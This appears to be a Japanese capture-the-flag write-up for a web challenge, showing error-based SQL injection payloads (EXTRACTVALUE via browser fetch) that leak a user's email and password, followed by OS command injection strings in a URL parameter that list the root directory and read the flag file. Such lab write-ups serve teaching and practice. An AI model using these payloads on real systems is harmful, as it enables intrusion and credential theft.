 # Writeup - tommorow

## SQLiパート
1. 対象環境にアクセスしログイン画面を開きます。 `/login`

2. SQLinjectionの脆弱性があるのでError basedのテクニックを使用してDBから情報を流出させる
- まずはDatabaseを漏洩させる為に、下記コードをブラウザのDevtoolsから実行する
```javascript
(async () => {
    const payload = `email='+AND+EXTRACTVALUE(1,+CONCAT(0x5c,+(DATABASE())))--+-`;

    const res = fetch(`/login`, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    });

    const leak = await (await res).text();
    console.log(leak);
})();
```
すると、`SQL Error: Error: XPATH syntax error: '\rwpl'`が得られるので`rwpl`がDatabase名と分かる

- 次にTableを漏洩させる為に、下記コードをブラウザのDevtoolsから実行する
```javascript
(async () => {
    const payload = `email='+AND+EXTRACTVALUE(1,+CONCAT(0x5c,+(SELECT+table_name+FROM+information_schema.tables+where+table_schema+IN+('rwpl'))))--+-`;

    const res = fetch(`/login`, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    });

    const leak = await (await res).text();
    console.log(leak);
})();
```
すると、`SQL Error: Error: XPATH syntax error: '\users'`が得られるので`users`がtable名と分かる

- 上記と同様にusersのカラムをleakさせるか、HTML上からguessして`email`と`password`のデータを漏洩させる
```javascript
(async () => {
    const payload = `email='+AND+EXTRACTVALUE(1,+CONCAT(0x5c,+(SELECT+email+FROM+users)))--+-`;

    const res = fetch(`/login`, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    });

    const leak = await (await res).text();
    console.log(leak);
})();
```
結果: `SQL Error: Error: XPATH syntax error: '\rwpl@tommorow.example.com'`  
email: `rwpl@tommorow.example.com`

```javascript
(async () => {
    const payload = `email='+AND+EXTRACTVALUE(1,+CONCAT(0x5c,+(SELECT+password+FROM+users)))--+-`;

    const res = fetch(`/login`, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    });

    const leak = await (await res).text();
    console.log(leak);
})();
```
結果: `SQL Error: Error: XPATH syntax error: '\sUp3r_Str0ng_RWPL_P@ssw0rd'`  
password: `sUp3r_Str0ng_RWPL_P@ssw0rd`

3. これで認証に必要な情報が揃ったので `/login` よりログインします。
```
email:rwpl@tommorow.example.com
password:sUp3r_Str0ng_RWPL_P@ssw0rd
```

## OSCiパート
1. ログインに成功したら、明日の日付ページを開きます。 `/tommorow?day=1`

2. とりあえず、`/tommorow?day=1'`へアクセスすると下記テキストが表示されます。
```
1'日後はCommand failed: date '+%Y-%m-%d' -d '1' day'
/bin/sh: syntax error: unterminated quoted string
ですね ;)
```
この結果より、`date '+%Y-%m-%d' -d '{input} day'` というコマンドが作られていることが分かります。

3. シングルクォーテーションを閉じる形でリクエストを投げるとOS Command Injectionが成立します。  
下記はOSCiが成立する一例でlsコマンドを使用しています。  
`/tommorow?day=%27;ls%20/||%27` へアクセス
```
';ls /||'日後は2025-02-27
app
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
ですね ;)
```

4. flag.txtが見つかったので確認します。  
`/tommorow?day=%27;cat%20/flag.txt||%27` へアクセス
```
';cat /flag.txt||'日後は2025-02-27
RWPL{1NJ3CT10N_M4ST3R_RWPL}ですね ;)
```
